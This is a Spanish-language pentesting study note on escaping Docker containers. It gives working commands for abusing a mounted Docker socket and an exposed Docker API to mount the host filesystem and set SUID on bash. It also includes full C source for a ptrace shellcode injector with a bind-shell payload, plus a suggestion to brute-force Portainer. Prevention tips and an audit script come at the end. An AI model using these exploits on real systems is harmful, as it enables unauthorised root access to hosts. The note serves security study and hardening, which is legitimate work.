




# 🐳 Docker Breakout: Escape de Contenedores

> [!danger] Concepto crítico de seguridad
> **Docker Breakout** se refiere a las técnicas utilizadas para escapar de un contenedor Docker y obtener acceso al sistema host subyacente. Estas técnicas explotan configuraciones inseguras, permisos elevados o vulnerabilidades en la implementación de contenedores.

---

## 📋 Tabla de Contenidos
- [Fundamentos Teóricos](#fundamentos-teóricos)
- [Método 1: Socket Docker Montado](#método-1-socket-docker-montado)
- [Método 2: Inyección de Procesos con PID Host](#método-2-inyección-de-procesos-con-pid-host)
- [Método 3: Explotación de Portainer](#método-3-explotación-de-portainer)
- [Método 4: API Docker Expuesta](#método-4-api-docker-expuesta)
- [Medidas de Prevención](#medidas-de-prevención)

---

## 🧠 Fundamentos Teóricos

### ¿Qué es el Docker Socket?



Cuando ejecutas comandos como `docker ps` o `docker images`, la comunicación se realiza a través de un **Unix socket file** ubicado en `/var/run/docker.sock`. Este archivo es la interfaz de comunicación directa con el demonio de Docker.

> [!warning] Riesgo crítico
> Si un contenedor tiene acceso al socket Docker del host, **puede controlar completamente** todos los contenedores y el sistema host.

---

## 🔓 Método 1: Socket Docker Montado

### Escenario típico

Un contenedor se ejecuta con el socket Docker montado:

```bash
docker run --rm -dit -v /var/run/docker.sock:/var/run/docker.sock --name ubuntuServer ubuntu
```

### Proceso de explotación



#### Pasos detallados:

1. **Verificar acceso al socket Docker:**
   ```bash
   ls -la /var/run/docker.sock
   docker images
   ```

2. **Crear contenedor con montaje del sistema host:**
   ```bash
   docker run --rm -dit -v /:/mnt/root --name privesc ubuntu
   ```
   
   > [!info] ¿Por qué es peligroso?
   > El parámetro `-v /:/mnt/root` monta **todo el sistema de archivos del host** en `/mnt/root` del nuevo contenedor.

3. **Acceder al nuevo contenedor:**
   ```bash
   docker exec -it privesc bash
   cd /mnt/root
   ```

4. **Modificar binarios críticos del host:**
   ```bash
   chmod u+s /mnt/root/bin/bash
   ```

5. **Escapar del contenedor original:**
   ```bash
   exit  # Salir del contenedor privesc
   /bin/bash -p  # Ejecutar bash con privilegios SUID
   ```

---

## 💉 Método 2: Inyección de Procesos con PID Host

### Configuración vulnerable

Contenedor ejecutado con flags peligrosas:
```bash
docker run --pid=host --privileged -it ubuntu bash
```

### Técnica de inyección de shellcode

#### Preparación del entorno

```bash
# Instalar herramientas necesarias
apt update && apt install gcc libcap2-bin netcat nano -y

# Verificar capabilities (opcional)
capsh --print
```

#### Código de inyección (`infect.c`)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 32

// Shellcode para bind shell en puerto 5600
unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";

int inject_data(pid_t pid, unsigned char *src, void *dst, int len) {
    int i;
    uint32_t *s = (uint32_t *) src;
    uint32_t *d = (uint32_t *) dst;
    for (i = 0; i < len; i+=4, s++, d++) {
        if ((ptrace(PTRACE_POKETEXT, pid, d, *s)) < 0) {
            perror("ptrace(POKETEXT):");
            return -1;
        }
    }
    return 0;
}

int main(int argc, char *argv[]) {
    pid_t target;
    struct user_regs_struct regs;
    if (argc != 2) {
        fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
        exit(1);
    }
    
    target = atoi(argv[1]);
    printf("+ Tracing process %d\n", target);
    if ((ptrace(PTRACE_ATTACH, target, NULL, NULL)) < 0) {
        perror("ptrace(ATTACH):");
        exit(1);
    }
    printf("+ Waiting for process...\n");
    wait(NULL);
    printf("+ Getting Registers\n");
    if ((ptrace(PTRACE_GETREGS, target, NULL, &regs)) < 0) {
        perror("ptrace(GETREGS):");
        exit(1);
    }
    printf("+ Injecting shell code at %p\n", (void*)regs.rip);
    inject_data(target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);
    regs.rip += 2;
    printf("+ Setting instruction pointer to %p\n", (void*)regs.rip);
    if ((ptrace(PTRACE_SETREGS, target, NULL, &regs)) < 0) {
        perror("ptrace(GETREGS):");
        exit(1);
    }
    
    printf("+ Run it!\n");
    if ((ptrace(PTRACE_DETACH, target, NULL, NULL)) < 0) {
        perror("ptrace(DETACH):");
        exit(1);
    }
    
    return 0;
}
```

#### Proceso de explotación:

1. **Compilar el exploit:**
   ```bash
   gcc infect.c -o infect
   ```

2. **Identificar procesos root:**
   ```bash
   ps -faux | grep root
   ```

3. **Inyectar shellcode:**
   ```bash
   ./infect 1234  # PID del proceso objetivo
   ```

4. **Conectar al bind shell:**
   ```bash
   # Obtener IPs
   hostname -I  # IP del contenedor: 172.17.0.2
   # IP del host: 172.17.0.1
   
   # Conectar desde el contenedor
   nc 172.17.0.1 5600
   ```

5. **Mejorar la shell:**
   Aplicar [[Tratamiento de TTY]] para obtener una shell completamente interactiva.

---

## 🌐 Método 3: Explotación de Portainer

### Configuración de Portainer

```bash
docker run -dit -p 8000:8000 -p 9000:9000 --name portainer --restart=always \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -v /docker/portainer/data:/data \
  portainer/portainer-ce
```

### Vector de ataque



#### Pasos de explotación:

1. **Acceder a Portainer:**
   - URL: `http://target:9000`
   - Probar credenciales débiles o ataques de fuerza bruta

2. **Crear contenedor malicioso:**
   - Usar la interfaz web para crear un nuevo contenedor
   - Configurar montaje: `-v /:/mnt/root`
   - Habilitar terminal interactivo (TTY)

3. **Obtener acceso root:**
   - Ejecutar terminal desde la interfaz de Portainer
   - Navegar a `/mnt/root` (sistema host)
   - Modificar archivos críticos del host

---

## 🌍 Método 4: API Docker Expuesta

### Identificación de la API

La API de Docker puede estar expuesta en:
- **Puerto 2375** (HTTP, sin cifrado)
- **Puerto 2376** (HTTPS con TLS)

#### Verificación de conectividad:

```bash
# Desde dentro del contenedor
hostname -I  # Ejemplo: 172.17.0.2
# Host sería: 172.17.0.1

# Verificar si el puerto está abierto
echo "" > /dev/tcp/172.17.0.1/2375
echo $?  # 0 = abierto, 1 = cerrado
```

### Explotación via API REST

#### Comandos básicos de reconocimiento:

```bash
# Listar contenedores existentes
curl http://172.17.0.1:2375/containers/json | jq

# Listar imágenes disponibles
curl http://172.17.0.1:2375/images/json | jq
```

#### Proceso de escape:

1. **Crear contenedor con montaje completo:**
   ```bash
   curl -X POST -H "Content-Type: application/json" \
     http://172.17.0.1:2375/containers/create?name=escape \
     -d '{
       "Image": "ubuntu",
       "Cmd": ["/usr/bin/tail", "-f", "1234", "/dev/null"],
       "Binds": ["/:/mnt"],
       "Privileged": true
     }'
   ```

2. **Iniciar el contenedor:**
   ```bash
   curl -X POST http://172.17.0.1:2375/containers/CONTAINER_ID/start
   ```

3. **Ejecutar comando para establecer SUID:**
   ```bash
   curl -X POST -H "Content-Type: application/json" \
     http://172.17.0.1:2375/containers/CONTAINER_ID/exec \
     -d '{
       "AttachStdin": false,
       "AttachStdout": true,
       "AttachStderr": true,
       "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/bin/bash"]
     }'
   ```

4. **Iniciar la ejecución:**
   ```bash
   curl -X POST -H "Content-Type: application/json" \
     http://172.17.0.1:2375/exec/EXEC_ID/start -d '{}'
   ```

5. **Escapar del contenedor:**
   ```bash
   /mnt/bin/bash -p
   ```

### Tabla de endpoints útiles de la API

| Endpoint | Método | Función |
|----------|--------|---------|
| `/containers/json` | GET | Listar contenedores |
| `/images/json` | GET | Listar imágenes |
| `/containers/create` | POST | Crear contenedor |
| `/containers/{id}/start` | POST | Iniciar contenedor |
| `/containers/{id}/exec` | POST | Ejecutar comando |
| `/exec/{id}/start` | POST | Iniciar ejecución |
| `/containers/{id}/stop` | POST | Detener contenedor |

---

## 🛡️ Medidas de Prevención

### Para Administradores

> [!warning] Configuraciones inseguras a evitar
> - No montar `/var/run/docker.sock` en contenedores no confiables
> - Evitar flags `--privileged` y `--pid=host` sin justificación
> - No exponer API Docker (puerto 2375/2376) sin autenticación
> - Restringir acceso a Portainer con credenciales fuertes

#### Configuraciones seguras recomendadas:

```bash
# Usar usuarios no-root en contenedores
FROM ubuntu:20.04
RUN useradd -r -u 1000 appuser
USER appuser

# Limitar capabilities
docker run --cap-drop=ALL --cap-add=NET_BIND_SERVICE app

# Usar redes aisladas
docker network create --internal secure-net
docker run --network secure-net app

# Implementar resource limits
docker run --memory=512m --cpus=0.5 app
```

### Detección y Monitoreo

```bash
# Script de detección de configuraciones inseguras
#!/bin/bash
echo "=== Audit de Seguridad Docker ==="

# Verificar contenedores con socket montado
echo "[1] Contenedores con Docker socket:"
docker ps --format "table {{.Names}}\t{{.Mounts}}" | grep docker.sock

# Verificar contenedores privilegiados
echo "[2] Contenedores privilegiados:"
docker inspect $(docker ps -q) | jq -r '.[] | select(.HostConfig.Privileged == true) | .Name'

# Verificar API expuesta
echo "[3] Verificar API Docker:"
netstat -tlnp | grep ":2375\|:2376"

# Verificar montajes peligrosos
echo "[4] Montajes del sistema raíz:"
docker ps --format "table {{.Names}}\t{{.Mounts}}" | grep ":/.*/"
```

---

## 📊 Comparativa de Métodos de Escape

| Método | Dificultad | Detección | Persistencia | Efectividad |
|--------|------------|-----------|--------------|-------------|
| **Socket Docker** | ⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| **PID Host + Privileged** | ⭐⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐⭐ |
| **Portainer** | ⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ |
| **API Docker** | ⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |

---

## 🎯 Resumen de Vectores de Ataque



---

## 🔗 Referencias

- [[Bind Shell]] - Técnicas de shells
- [[netcat]] - Herramienta de red
- [[Tratamiento de TTY]] - Mejora de shells
- [[portainers]] - Gestión de contenedores
- [[netstat]] - Análisis de red
- [[Docker - Habilitar la TCP puerto 2765]] - Configuración de API
- [[jq]] - Procesamiento JSON
- [[curl]] - Cliente HTTP
- [[Hack Tricks]] - Recursos adicionales de hacking

> [!success] Puntos clave para recordar
> - **Docker Breakout** explota configuraciones inseguras, no vulnerabilidades del software
> - **El socket Docker montado** es el vector más peligroso y común
> - **La prevención** se basa en seguir principios de menor privilegio
> - **El monitoreo continuo** es esencial para detectar configuraciones inseguras
> - **La educación del equipo** sobre estas técnicas es crucial para la seguridad